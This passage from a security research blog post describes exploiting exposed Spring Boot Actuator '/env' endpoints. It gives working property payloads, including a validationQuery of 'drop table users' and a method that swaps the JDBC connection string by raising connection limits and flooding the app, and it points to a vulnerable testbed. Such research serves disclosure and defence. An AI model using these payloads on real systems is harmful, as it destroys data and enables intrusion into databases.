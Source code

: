 Using Spring Actuators, you can actually exploit this vulnerability even if you don't have access to an internal Eureka server; you only need an "/env" endpoint available.

**Other useful settings:**

**spring.datasource.tomcat.validationQuery=drop+table+users** - allows you to specify any SQL query, and it will be automatically executed against the current database. It could be any statement, including insert, update, or delete.

![Exploiting Spring Boot Actuators Drop Table](https://www.veracode.com/sites/default/files/exploiting\_spring\_boot\_actuators\_drop\_table.png)

**spring.datasource.tomcat.url**=jdbc:hsqldb:[https://localhost:3002/xdb](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#) - allows you to modify the current JDBC connection string.

The last one looks great, but the problem is when the application running the database connection is already established, just updating the JDBC string does not have any effect. Hopefully, there is another property that may help us in this case:

**spring.datasource.tomcat.max-active**=777

The trick we can use here is to increase the number of simultaneous connections to the database. So, we can change the JDBC connection string, increase the number of connections, and after that send many requests to the application to simulate heavy load. Under the load, the application will create a new database connection with the updated malicious JDBC string. I tested this technique locally agains Mysql and it works like a charm.

![Exploiting Spring Boot Actuators Max Active](https://www.veracode.com/sites/default/files/exploiting\_spring\_boot\_actuators\_max\_active.png)

Apart from that, there are other properties that look interesting, but, in practice, are not really useful:

**spring.datasource.url** - database connection string (used only for the first connection)

**spring.datasource.jndiName** - databases JNDI string (used only for the first connection)

**spring.datasource.tomcat.dataSourceJNDI** - databases JNDI string (not used at all)

**spring.cloud.config.uri**=[http://artsploit.com/](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#) - spring cloud config url (does not have any effect after app start, only the initial values are used.)

These properties do not have any effect unless the '/restart' endpoint is called. This endpoint restarts all ApplicationContext but its disabled by default.

There are a lot of other interesting properties, but most of them do not take immediate effect after change.

**N.B.** In Spring Boot 2x, the request format for modifying properties via the '/env' endpoint is slightly different (it uses json format instead), but the idea is the same.

**An example of the vulnerable app:**

If you want to test this vulnerability locally, I created a [simple Spring Boot application on my Github page](https://github.com/artsploit/actuator-testbed). All payloads should work there, except for database settings (unless you configure it).

**Black box discovery:**
